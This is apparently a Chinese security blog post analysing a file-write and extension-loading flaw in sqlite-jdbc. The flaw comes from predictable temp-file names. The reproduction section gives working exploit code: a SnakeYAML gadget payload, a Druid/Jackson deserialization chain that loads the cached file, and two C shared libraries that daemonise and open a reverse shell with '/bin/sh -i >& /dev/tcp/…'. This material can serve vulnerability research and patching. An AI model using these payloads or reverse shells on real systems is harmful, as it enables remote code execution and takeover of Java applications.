










0x01 影响版本
3.6.14.1-3.41.2.1
0x02 分析
org.sqlite.jdbc4.JDBC4Connection

构造函数的参数，public，然后调用super方法
org.sqlite.SQLiteConnection#SQLiteConnection(java.lang.String, java.lang.String, java.util.Properties)

super方法会一直调用父类的方法，然后在SQLiteConnection调用open方法。
org.sqlite.SQLiteConnection#open

open 方法则会对filename进行判断
org.sqlite.SQLiteConnection#extractPragmasFromFilename

这个函数会对jdbcurl进行判断。其中filename就是jdbc:sqlite:后面字符，要是包含?就会走else, 然后用&分割,在按照=符号存储keyvaule。
简单就是jdbc:sqlite:DBPATH?enable_load_extension=true,先提取DBPATH?enable_load_extension=true，然后?提取enable_load_extension=true,然后=分割后，put进Properties。
继续看

filename中不满足这几个条件，就会判断是不是:resource:开头，是就是提取:resource:后面的字符，也就是提取协议路径，然后调用classloader读取，读不到就调用new URl 读取。然后传入extractResource。在使用netdoc协议时，由于在这里已经进行了url连接,conntion标识以为true，后续extractResource中连接时，conn.stechaches会报错。
最重要的就是这个
org.sqlite.SQLiteConnection#extractResource

它会判断传入的协议是不是file, 是file就直接retuen，我们要出发漏洞缓存文件，肯定是要走else的

else就是获取tmp目录，然后然后 **String.format(“sqlite-jdbc-tmp-%d.db”, resourceAddr.hashCode());**这个格式缓存。
最后就是URLConnection连接后获取输入流，然后内容copy到缓存文件。
这里使用的resourceAddr.hashCode(), 我们可以直接计算出来，所以这个缓存的文件，我们是可知，也就是我们可以利用jdbc连接或者直接构造函数来写一个文件到tmp目录下。
1
2
3
4
5
| public static void main(String[] args) throws MalformedURLException {
String so = "http://vpsip:port/poc.so";
String url = so;
String filename = "/tmp/sqlite-jdbc-tmp-"+new
URL(url).hashCode()+".db";System.out.printf(filename);}
|
0x03 修复

采取随机,不可控了
0x04 复现
使用yaml来
1
2
3
4
5
6
7
8
9
10
11
12
| public static void main(String[] args) throws Exception {
System.setProperty("java.io.tmpdir","/tmp");
Yaml yaml = new Yaml();
String so = "http://127.0.0.1:8889/poc1.dylib";
String s = "jdbc:sqlite::resource:" + so + "";
String filename = ":resource:" + so + "";
String name = "/tmp/sqlite-jdbc-tmp-"+new URL(so).hashCode()+".db";
System.out.println(name);
String poc = "!!org.sqlite.jdbc4.JDBC4Connection [ \""+s+"\", \""+filename+"\", !!java.util.Properties []] ";
System.out.println(poc);
yaml.load(poc);
}
|

Sqlite.so
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
| #include <stdlib.h>
#include <stdio.h>
#include <sqlite3ext.h>
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
SQLITE_EXTENSION_INIT1
#ifdef _WIN32
__declspec(dllexport)
#endif
int sqlite3_extension_init(
sqlite3 *db,
char **pzErrMsg,
const sqlite3_api_routines *pApi
) {
int rc = SQLITE_OK;
SQLITE_EXTENSION_INIT2(pApi);
pid_t pid = fork();
if (pid < 0) {
perror("fork error");
exit(1);
} else if (pid > 0) {
while (1) {
}
}
umask(0);
if (setsid() < 0) {
perror("setsid error");
exit(1);
}
close(STDIN_FILENO);
close(STDOUT_FILENO);
close(STDERR_FILENO);
int fd = open("/dev/null", O_RDWR);
dup2(fd, STDIN_FILENO);
dup2(fd, STDOUT_FILENO);
dup2(fd, STDERR_FILENO);
close(fd);
const char *args[] = {"/bin/sh", "-c", "/bin/sh -i >& /dev/tcp/127.0.0.1/8888 0>&1", NULL};
execve("/bin/sh", (char* const*)args, NULL);
return 0;
return rc;
}
|
linux.so
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
| #include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
void __attribute__ ((constructor)) my_init_so()
{
pid_t pid = fork();
if (pid < 0) {
perror("fork error");
exit(1);
} else if (pid > 0) {
while (1) {
}
}
umask(0);
if (setsid() < 0) {
perror("setsid error");
exit(1);
}
close(STDIN_FILENO);
close(STDOUT_FILENO);
close(STDERR_FILENO);
int fd = open("/dev/null", O_RDWR);
dup2(fd, STDIN_FILENO);
dup2(fd, STDOUT_FILENO);
dup2(fd, STDERR_FILENO);
close(fd);
const char *args[] = {"/bin/sh", "-c", "/bin/sh -i >& /dev/tcp/127.0.0.1/8888 0>&1", NULL};
execve("/bin/sh", (char* const*)args, NULL);
}
|
要是jdbc连接
jdbc:sqlite:DBPATH?enable_load_extension=true, 开启loadso功能，**SELECT load_extension(‘poc.dylib’)**导入
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
| String so = "http://127.0.0.1:8889/poc1.dylib";
String url = so;
String filename = "/tmp/sqlite-jdbc-tmp-"+new URL(url).hashCode()+".db";
System.out.printf(filename+"\n");
DruidXADataSource druidDataSource = new DruidXADataSource();
druidDataSource.setUrl("jdbc:sqlite::resource:"+so+""+"?enable_load_extension=true");
druidDataSource.setLogWriter(null);
druidDataSource.setStatLogger(null);
druidDataSource.setValidationQuery("SELECT load_extension('"+filename+"')");
druidDataSource.setInitialSize(1);
utils.setFieldValue(druidDataSource,"transactionHistogram",null);
utils.setFieldValue(druidDataSource,"initedLatch",null);
POJONode jsonNodes = new POJONode(druidDataSource);
HashMap hashMap = utils.maskmapToString(jsonNodes, jsonNodes);
byte[] serialize = utils.serialize(hashMap);
utils.unserialize(serialize);
|

refence
https://mp.weixin.qq.com/s/JY1C2LqOqbAQvJLIhG8prQ
https://unam4.github.io/2024/08/04/fine%E6%8A%A5%E8%A1%A8%E9%97%AE%E9%A2%98/